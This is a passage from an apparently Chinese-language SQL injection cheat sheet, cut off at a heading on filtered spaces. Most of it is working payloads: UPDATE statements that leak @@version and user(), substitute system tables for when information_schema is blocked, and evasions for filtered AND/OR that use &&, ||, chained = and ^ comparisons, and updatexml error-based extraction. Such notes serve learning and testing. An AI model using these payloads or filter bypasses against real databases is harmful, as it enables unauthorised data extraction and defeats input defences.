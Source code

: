 ```
use test;
UPDATE users set name='admin',password=(select @@version) where id=1;
select * from users;
UPDATE users set name='admin',password=(select user()) where id=1;
select * from users;
```

![](https://img.mi3aka.eu.org/2022/09/9fff0c5654b31bb0e62e062f88ff1ded.png)

# 过滤与替换

## information_schema被过滤

>某些表需要权限才能访问

1. `sys.schema_auto_increment_columns`

2. `sys.x$innodb_buffer_stats_by_table`

3. `sys.x$ps_schema_table_statistics_io`

4. `sys.schema_table_statistics_with_buffer`

5. `sys.x$schema_table_statistics_with_buffer`

6. `performance_schema.table_io_waits_summary_by_table`

7. `mysql.innodb_index_stats`

8. `mysql.innodb_table_stats`

## and与or被过滤

- 用`&&`和`||`代替

- 直接拼接数据

```
select id,username,password from users where id=1=1
select id,username,password from users where id=1=0
select id,username,password from users where id=1=updatexml(1,concat(0x7e,(select @@version),0x7e),1)

select id,username,password from users where id=1^1
select id,username,password from users where id=1^0
select id,username,password from users where id=1^updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203241440545.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203241442340.png)

## 空格被过滤
